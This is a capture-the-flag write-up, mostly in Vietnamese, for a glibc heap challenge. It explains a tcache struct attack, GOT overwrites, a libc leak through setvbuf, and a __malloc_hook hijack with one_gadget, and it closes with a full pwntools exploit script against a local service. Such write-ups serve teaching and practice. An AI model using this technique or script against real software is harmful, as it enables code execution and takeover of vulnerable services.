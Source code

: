 # Our Poisoned Cache

## Summary
  Ý định của mình cho vòng qual chỉ là một bài pwn heap cơ bản liên quan đến **tcache struct attack** . Ban đầu challenge không có stack leak mà chỉ có heap leak tuy nhiên điều này tạo ra một challenge rất hạn hẹp và nhàm chán, dù gì thì đây cũng chỉ là một bài introduction đến với heap exploit. Tuy nhiên solution của mình sẽ không dùng đến stack leak có sẵn.
  
## Description

>My h4ck3r friend said that my program can be exploited, something something related to poisoning. I don't understack this hacking's lingo. Can you exploit this and read my file flag.txt?

![image](https://user-images.githubusercontent.com/101010673/174489807-04014b5a-7138-4afb-b016-6c767391df3a.png)  

  - Hint ở đây là liên quan đến **tcache poisoning**. Nhưng khác với technique thông thường chúng ta sẽ không overwrite lên tcache chunk đã bị free, mà chúng ta sẽ exploit thẳng vào tcache struct nằm sẵn ở trên heap.
  - Đồng thời nhận thấy đây là **partial RELRO** và **NO PIE**. Ta sẽ exploit cả vào **GOT Table**

## Reversing
  ![image](https://user-images.githubusercontent.com/101010673/174490407-e48b3b86-b3c8-4b5a-a67b-3c9f9ff4fa56.png)  

  Đây là phần quan trọng nhất của cả chương trình. Work flow của chương trình là như sau:  
  - **Malloc** 0x40 bytes chunk  
  - **Malloc** 0x10 bytes chunk (Tránh chunk consolidation)  
  - Cho ta biết **heap base** và **stack address**
  - **Free** 0x40 bytes chunk  
  - Cho ta **arbitrary write chỉ riêng trên heap** 
  ![image](https://user-images.githubusercontent.com/101010673/174490474-4022bc33-2af5-4b30-a7a5-c6f7929785c6.png)  
      
  - Chỉ **malloc** 0x40 bytes chunk 1 lần nữa nếu ta đã không ghi đè vào **fd pointer** của freed tcache chunk, và **bk pointer** nằm trong heap range  
  ![image](https://user-images.githubusercontent.com/101010673/174490505-b9ec90f3-da1b-4b58-8705-5bf2441e4235.png)  
  - **Chỉ chunk 0x40 bytes lần 2 là ta có quyền nhập vào 0x30 bytes.**  
  - Chương trình sẽ exit ngay sau đó  
    
  => Với restriction này ta không thể thực hiện **tcache poisoning** thông thường

## Prerequisite Knowledge
  Trước tiên chúng ta cần nói qua về **tcache struct attack**:  
```c
  typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];//0x40
  tcache_entry *entries[TCACHE_MAX_BINS];//0x40
} tcache_perthread_struct;
```  
  - Khi chương trình dùng đến **TCACHE**, thì **tcache_perthread_struct** sẽ được initialized và được lưu trữ ngay trên heap  
  ![image](https://user-images.githubusercontent.com/101010673/174491121-d069fa38-a099-453c-9864-84c5a8826255.png)  
  - Nó chính là chunk đầu tiên với size `0x290 bytes`
  - Struct tcache sẽ bao gồm một array *counts* đầu tiên với 0x40 bytes. Mỗi bytes sẽ đại diện cho số lượng tcache với size đó mà ta hiện có)  
  - Một array *entries* chính là **address của chunk đứng đầu trên single linked list** của tcache với từng size một. 
  ![image](https://user-images.githubusercontent.com/101010673/174491555-9f603fa8-e8ca-411f-872c-36e5af12dc4e.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491573-022e2a56-f9db-4276-9483-9a762cb55066.png)   
  - Một tcache linked list thông thường sẽ như sau: Size 0x20: Chunk 1 -> Chunk 2 -> Chunk 3 -> ..... -> Chunk 7 ( Tcache của một size chỉ cố tối đa **7 chunk**)
  - Với **tcache poisoning** thông thường ta sẽ pollute **fd (forward) pointer** để làm thay đổi linked list dẫn đến chunk tiếp theo sẽ trả về một địa chỉ khác.
  - Size 0x20: Chunk 1 -> Chunk 2(fd pointer poisoned) -> (The address we poisoned with) -> corrupted
  - Như vậy lần **malloc** thứ nhất với size 0x20 bytes, chương trình kiểm tra tcache và thấy có chunk 1 free -> Chương trình trả về chunk này cho chúng ta
  - Lần **malloc** thứ hai tương tự, nhưng lần này sau chunk 2 lại trỏ đến một address khác (Ta đã poison tcache)
  - Lần **malloc** thứ ba, sẽ trả về address mà ta đã poison
  - Tuy nhiên như đã nói ở trên chương trình có kiểm tra xem **fd pointer** của chunk có bị corrupt không thế nên ta sẽ không tấn công vào đây mà sẽ tấn công ngay vào **entries** hay chính là chunk đầu tiên  
  ![image](https://user-images.githubusercontent.com/101010673/174491604-6f550d5b-8772-4192-b2c1-6350ce65e842.png)  
  - **0x4052a0** chính là entries tương ứng với 0x50 size tcache chunks và ta cần ghi đè địa chỉ này thành địa chỉ khác

## Arbitrary Write
  Từ kiến thức về **tcache struct attack** ở trên ta đã có khả năng để **arbitrary write ngoài vùng heap** với ý tưởng như sau:
  - Quay lại về flow của chương trình: ptr = malloc(0x40) -> free(ptr) -> malloc(0x40)
  - Như vậy sau lần malloc đầu rồi free, tcache 0x50 sẽ có một chunk đấy chính là **0x4052a0**  
  - Ta sẽ ghi đè địa chỉ này lần malloc sau đó sẽ trả về address ta mong muốn  
  
  Ví dụ: Ta ghi đè với **0x405310**  
  ![image](https://user-images.githubusercontent.com/101010673/174491852-0a10a91c-3de1-4ff9-9c91-8d284adab2a7.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491913-a489e067-d9e8-46a5-bffc-fc2559fbcf68.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491894-bbce2064-b7a9-470e-b9ec-fbe069bb8d8f.png)  
  
  Giờ thì ta có thể ghi đè **GOT Table**, ghi đè **GOT của exit** thành địa chỉ của main để ta có thể chạy chương trình vô hạn lần
  
  **Chú ý:** Sau khi ta ghi đè **entries** xong thì **fd pointer** của chunk tiếp theo sẽ tiếp tục bị corrupt, nên ta cần phải ghi đè lại **fd pointer** thành null để thỏa mãn điều kiện malloc lần 2  
  ![image](https://user-images.githubusercontent.com/101010673/174492474-8d9928dc-d621-4965-822e-049dda9d33a9.png)  
  8 bytes đầu tiên không còn là null như lần đầu nữa nên ta cần ghi đè lại  
  
## Info-leak
  Đầu tiên ta cần leak được địa chỉ libc, solution của mình sẽ leak thông qua **setvbuf**  
  ![image](https://user-images.githubusercontent.com/101010673/174492592-9786c4cb-ea04-48c1-873e-24d56761aeab.png)  
  - Nếu **GOT của setvbuf** trở thành **printf**, thì ta sẽ in ra được giá trị lưu tại địa chỉ global **stdin,stdout,stderr**  
  - Mà các địa chỉ global kia lại được lưu ở **.bss** -> ta có thể ghi đè cả địa chỉ global này  
  => Ta có thể leak giá trị ở bất kì địa chỉ nào mà ta mong muốn  

## Control RIP  
  - Để kiểm soát được luồng thực thi của chương trình (Hijacking RIP), ta sẽ dùng trick phổ biến: ghi đè **__malloc_hook** thành **one_gadget**  
  - Như vậy mỗi khi chương trình gọi **malloc** -> gọi **malloc_hook** -> gọi **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/174492774-c92db6d7-ff4f-42dc-98d7-b2521b19ac79.png)  
  - Mình sử dụng **one_gadget** nằm ở offset **0xe3b31**  
 
## Full exploit script  
```python
from pwn import *

r = remote("127.0.0.1",2005)

#r = gdb.debug("./our_poisoned_cache_patched")

r.recvuntil("is: ")
heap_base = int(r.recv(8),16)
r.recvuntil("is: ")
stack_addr = int(r.recv(14),16)
overwrite_tcache = heap_base + 0xa8
exit_got = 0x404068
free_got = 0x404018
stderr = 0x4040a0
main = 0x004012c7
setvbuf = 0x404050

log.info("Overwriting exit GOT to point to main")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(exit_got)))
r.send(p64(main))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x310)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting setvbuf to point to printf")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(setvbuf)))
r.send(p64(0x401050) + p64(0x401016))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x3f0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting stderr to another address point to read GOT")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(stderr)))
r.send(p64(0x404040))
r.recv(8)

log.info("Setvbuf will now print out libc address stored at read GOT")
leak_libc = u64(r.recv(6).ljust(8,"\x00"))
libc_base = leak_libc - 0x10dff0
malloc_hook = libc_base + 0x1ecb70
one_gadget = libc_base + 0xe3b31
log.info("Libc Base Address: " + hex(libc_base))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x4d0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting __malloc_hook to one_gadget")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(malloc_hook)))
r.send(p64(one_gadget))
r.clean()
r.interactive()
```  
![image](https://user-images.githubusercontent.com/101010673/174493058-839a6328-e738-441d-a9fc-c9f32cbab67c.png)


  

  
  
  
  


  
  


